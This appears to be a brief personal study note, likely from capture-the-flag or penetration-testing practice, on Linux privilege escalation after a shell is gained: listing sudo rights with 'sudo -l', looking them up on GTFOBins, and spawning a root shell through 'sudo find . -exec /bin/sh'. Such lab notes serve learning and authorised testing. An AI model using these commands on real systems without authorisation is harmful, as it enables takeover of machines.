 https://gtfobins.github.io/ 

once shell is gained
> sudo -l
  - this will identify current root privilages

once that is identified - use gtfobins, and search for identified to find soemthing that can work

ex. find
> sudo find . -exec /bin/sh \; -quit

if this is allowed gtfo bins will give you the above - run it in the termianal of the user to obtain a root shell
- confirm with 
> whoami

